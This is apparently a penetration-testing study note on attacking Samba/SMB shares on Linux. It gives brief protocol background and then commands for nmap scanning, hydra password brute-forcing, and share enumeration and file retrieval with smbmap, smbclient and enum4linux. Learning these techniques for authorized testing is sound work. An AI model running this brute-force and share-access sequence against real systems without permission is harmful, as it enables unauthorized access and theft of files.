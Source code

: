 ```yaml
---
up: "[[Exploiting Linux Vulnerabilities]]"
tools:
  - "[[smbclient]]"
  - "[[SMBMap]]"
---
```


# Exploiting SAMBA

- SMB is a network file sharing protocol used to facilitate the sharing of files between computers
- SMB uses port 445 or 139 on top of NetBIOS
- SAMBA is the Linux implementation of SMB and allows Windows systems to access Linux shares and devices

- Samba utilizes username + password authentication
	- Vulnerable to brute force
- After obtaining credential we can use SMBMap to enumerate SAMBA share drives
- There is also smbclient

## Demonstration

```bash
nmap -sV $TRG
```

Brute force samba:

```bash
hydra -l admin -P unix_password.txt $TRG SMB
```

Using SMBMap after finding credentials:

```bash
# list shares
smbmap -H $TRG -u admin -p <pass>
```

smbclient:

```bash
# list shares
smbclient -L $TRG -U admin
# 
smbclient //$TRG/<share> -U admin
\> ?
\> dir
\> get <file>
\> exit
```

Using enum4linux:

```bash
enum4linux -a $TRG
enum4linux -a -u admin -p <pass> $TRG
```
